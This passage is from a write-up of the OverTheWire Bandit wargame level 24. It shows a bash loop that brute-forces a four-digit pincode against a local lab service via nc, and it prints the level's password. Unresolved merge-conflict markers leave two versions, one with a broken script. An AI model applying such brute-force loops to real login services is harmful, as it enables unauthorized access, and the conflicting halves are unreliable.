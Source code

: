 ## Level 24

<<<<<<< HEAD
```bsh
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode
 on a single line, separated by a space.
 ```
 We need to brute force the four digit pin. Time for a bash script.

#Work out how we filter the output

 ```bsh
 #!\bin\bash

 for i in {0000..9999}
 do
    output = echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i | nc localhost 30002
done
```
=======
```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
Wrong! Please enter the correct pincode. Try again.
1234
Fail! You did not supply enough data. Try again.
```
So we write a bash script to generate pins
```
bandit24@bandit:/tmp/init724$ vim bruteforce.sh
#!/bin/bash

for i in {0000..9999}
do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> pins
done
```
Then pipe into nc and get the uniq result
```
bandit24@bandit:/tmp/init724$ cat pins | nc localhost 30002 >> result
bandit24@bandit:/tmp/init724$ uniq result
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is 
```

## Bandit 26

